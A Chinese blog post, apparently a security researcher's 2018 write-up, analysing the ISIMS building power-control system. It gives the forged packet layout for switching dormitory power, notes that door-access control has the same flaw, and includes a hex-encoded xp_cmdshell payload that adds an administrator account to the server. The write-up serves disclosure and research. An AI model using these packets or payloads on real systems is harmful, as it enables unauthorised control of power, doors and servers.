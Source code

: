 ```yaml
---
layout:     post
title:      论操纵大楼灯光打游戏的可行性
subtitle:   对ISIMS智能电控的分析
date:       2018-03-02
author:     volcanohatred
header-img: img/articles/控电/title.jpg
catalog: true
tags:
    - 逆向
    - socket编程
    - 渗透测试
    - 脑洞
---
```


#1.智能电控系统
智能电控系统即对强电加入智能弱电控制模块，从而达到对电力的控制和操作。近年来，很多大型企业、学校单位为了方便对电力的管理和收费，都引进了对楼宇的智能电控系统。而且随着网络化和智能化的发展和普及，对智能电控系统的布控在国内也成增长趋势。国内做智能电控系统的厂家很多，比如新开普的电控水电表管理系统，常工电子的ISIMS智能计量管理系统等。
但是，智能电子产品的应用越普及，意味着对安全的需求也越高，作为一个安全从业者，有必要对其产品的安全进行严格把控。
2.对ISIMS智能计量管理软件的分析
在一次渗透测试中，拿到了某大学的电力控制服务器权限，所以本文就以这台服务器上的ISIMS智能计量管理软件为研究对象，进行分析。
ISIMS智能计量管理软件是常州股份公司开发的产品，因为它的方便性和智能性，使得国内很多大学都在用它来进行学生宿舍的计费和控制。ISIMS智能计量管理软件属于注册商用软件，所以网上是没有下载的。闲的无聊去公司官网看了看，发现应用案例还挺多。
![](img/articles/控电/图片1.png)













话不多说，开始分析吧！！！


注：此研究软件的版本        客户端 Sims 	   v3.23.15
		                      服务端 Simserv 	v3.24.01

2.1工作模式
ISIMS的工作模式如下图：

client（tcp client）—>server(tcp server)—>中位机（tcp client）
2.2传输数据分析
用WPE对客户端的数据进行抓包分析：
A用户登陆数据包：


电力控制数据包：

A用户注销数据包：

开关成功返回数据：

经过对数据包进行大致分析，发现传送的数据均没有进行加密处理，而且发现客户端发送的数据并无时效性，这样伪造数据包显得轻而易举。另外，对电力的控制数据包大小固定，为543字节，如果控制命令成功执行，则返回一个29字节的数据包，否则返回一个21字节大小的数据包。但是要想伪造数据包对某个特定房间进行开关电，则需要对电力控制的那个大小为543字节的数据包进行解析才能随意构造。
A用户对某个房间开数据，发往服务器：
00 00 00 07 00 00 00 AA 00 00 00 94 00 00 00 00 00 00 02 0B 01 2E 00 00 00 02 08 00 00 00 33 04 10 37 33 02 F3 00 00 00 00 00 00 69 0E 38 02 CD AB BA DC 00 00 00 00 00 00 00 00 69 0E 38 02 AC F9 18 00 C8 F9 18 00 30 02 17 76 B8 6B 44 06 14 FA 18 00 91 6D 10 76 51 6D 10 76 75 DE 87 6E 00 00 00 00 4A 03 03 00 B8 6B 44 06 24 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00 70 00 00 00 FF FF FF FF FF FF FF FF E9 6C 10 76 91 6D 10 76 0C FA 18 00 01 00 00 00 00 00 00 00 7C 5E 43 06 B8 F9 18 00 60 FA 18 00 60 FA 18 00 1E A6 16 76 39 49 8F 18 FE FF FF FF 51 6D 10 76 E8 6D 10 76 00 00 00 00 69 0E 38 02 4A 03 03 00 99 01 00 00 03 00 00 00 00 00 00 00 48 22 F2 00 F3 6D 10 76 11 DE 87 6E 99 01 00 00 00 00 00 00 B8 6B 44 06 04 00 00 00 B8 C7 4B 00 7C 5E 43 06 3C FA 18 00 B8 6B 44 06 BC FA 18 00 1E A6 16 76 99 49 8F 18 FE FF FF FF F3 6D 10 76 44 6E 10 76 20 22 F2 00 DA F8 2C 77 57 6E 10 76 94 FA 18 00 18 00 00 00 00 00 00 00 20 22 F2 00 7C 5E 43 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 24 FB 18 00 1A 01 2C 77 C4 FA 18 00 00 00 00 00 9C FB 18 00 80 00 2C 77 20 22 F2 00 00 00 00 00 99 01 00 00 03 00 00 00 00 00 00 00 69 0E 38 02 D2 25 2E 77 04 00 00 00 B9 72 10 76 61 21 11 76 4A 03 03 00 99 01 00 00 03 00 00 00 00 00 00 00 00 00 00 00 B1 02 00 00 01 00 00 00 00 00 00 00 99 01 00 00 B8 6B 44 06 00 00 00 00 AC FD 18 00 4A 03 03 00 00 00 00 00 48 FB 18 00 7A 61 11 76 20 22 F2 00 00 00 00 00 69 0E 38 02 03 00 00 00 00 00 00 00 01 00 00 00 03 00 00 00 BC FB 18 00 8F 85 47 00 4A 03 03 00 99 01 00 00 03 00 00 00 F7 3C 40 00 03 00 00 00 7C 5E 43 06 B8 62 51 00 B8 6B 44 06 03 00 00 00 03 00 00 00 B8 6B 44 00 

服务器发往中位机的数据：（对服务端进行抓包）
7D 33 04 10 37 33 02 F3 00 AB EA 7F

2.3逆向分析
ISIMS客户端由3个动态链接库文件、1个配置文件和1个可执行文件组成。分别是CtoS.dll,midas.dll,Mwic_32.dll;
SimsClient.ini;SIMS.exe。SimsClient.ini里面是一些服务器ip，端口的信息，所以目的是对3个动态链接库文件和可执行文件进行逆向分析。SIMS.exe无壳，由Delphi编写。
Send函数位于CtoS.dll中，下条件断点使之发送的数据大小为21F（543）时断下：

在返回点下断找调用函数，以此往上找原数据组成：



通过对数据的拆分，发现543字节大小的数据由3部分组成，前23字节的数据加16字节数据再加后面的数据。


2.4分析总结

发往服务器的543字节的数据中，前39字节为关键数据，后面的数据为无用数据，在前39个字节中后面的9位最为关键：
00 00 00 07 00 00 00 AA 00 00 00 94 00 00 00 00 00 00 02 0B 01 2E 00 00 00 02 08 00 00 00 33 04 10 37 33 02 F3 00 00

33位分隔字符，04位代表楼层编号，10代表中位机号，37为端口号，02 F3 为开电功能位。即：管理器地址+中位机地址+48加端口号》》》》转化成16进制。汇编代码如下：


客户端启动之后会向服务器发送数据库查询指令，服务器会返回各栋楼各个中位机和房间端口的数据，放在某段内存之中，以便发送和接收数据调用。所以，得出结论，要想操纵大楼灯光打游戏就是对控制数据包的前39个字节中的后9位进行构造，然后编写算法以达到目的。


3.伪造数据包对寝室电力进行控制
3.1伪造数据开关目标房间

初步的设计思路为编写tcp客户端向电控服务器发送登陆请求，然后伪造数据发包,最后注销用户,C代码如下：







上面代码中禁用nagel算法很关键，不禁用数据会先放到缓冲区，然后等到一定大小才会发送，这样发送到服务器的数据包会是一个粘在一起的包含登陆控制注销代码的数据包，服务器不会识别。
测试：发现目标房间开关电成功。
查看附件视频。
3.2操纵大楼灯光打游戏的可行性
既然我们已经分析了关键数据实现了对某个房间的开关，那就可以实现对整栋楼房间的开关。但是要想用灯光打游戏，需要考虑的是延迟性和服务器的处理能力，后来我做了相关测试，发现延迟性太高和服务器处理能力不足的问题都有出现：同时发送三个房间的开数据会出现一个房间未能开电。
这里可以改变代码的执行路径，改变ISIMS的工作模式:

直接写一个服务器程序向中位机发包（需要在中位机web服务上添加本机ip，设置端口），问题得到解决。现在要考虑的就只有游戏代码问题了。（略）

4.漏洞挖掘
在无意之中，发现客户端在未发送登陆数据的情况下，发送控制代码依然可以控制目标房间的电力，而在未发送登陆数据的情况下发送注销代码在服务器日志上会被记录为sa用户已退出，初步推断此系统存在验证漏洞。
在之前的OD中看到有数据库执行命令，在客户端中，当用户点击查询指令时，客户端会向服务器发送这段指令：

在之前的渗透测试中，发现服务器使用的是sql server数据库，既然服务器对发送的数据验证不严格，可以试着构造恶意数据库命令添加系统用户试试。多次测试分析发现，在执行数据库命令时，数据包前18位不发生改变：
0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x55,0x00,0x00,0x00,0x74,0x00,0x00,0x00,0x00,0x00,0x00
第18、19位用来表示后面要执行的sql语句的字段大小，现在构造一条添加系统用户的语句：
exec master..xp_cmdshell 'net user admin admin /add'.转化位16进制：
0x65,0x78,0x65,0x63,0x20,0x6d,0x61,0x73,0x74,0x65,0x72,0x2e,0x2e,0x78,0x70,0x5f,0x63,0x6d,0x64,0x73,0x68,0x65,0x6c,0x6c,0x20,0x27,0x6e,0x65,0x74,0x20,0x75,0x73,0x65,0x72,0x20,0x61,0x64,0x6d,0x69,0x6e,0x20,0x61,0x64,0x6d,0x69,0x6e,0x20,0x2f,0x61,0x64,0x64,0x27,0x00(总共53位）再加上前面的20位前缀：
0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x55,0x00,0x00,0x00,0x74,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0X35

将构造的数据通过tcp客户端发送给服务器：


服务器成功添加新用户！
5.扩展测试
上面做了对电力系统的测试，后来我对门禁系统也同样进行了测试，也发现了同样的问题，对数据包的验证同样无时效性，下图为向某个下属刷卡门进行测试：返回1，代表开门成功，门禁系统这里不做讨论。




可以看出在内网之中各种基础设施的脆弱性！！！



强强
2018年7月20日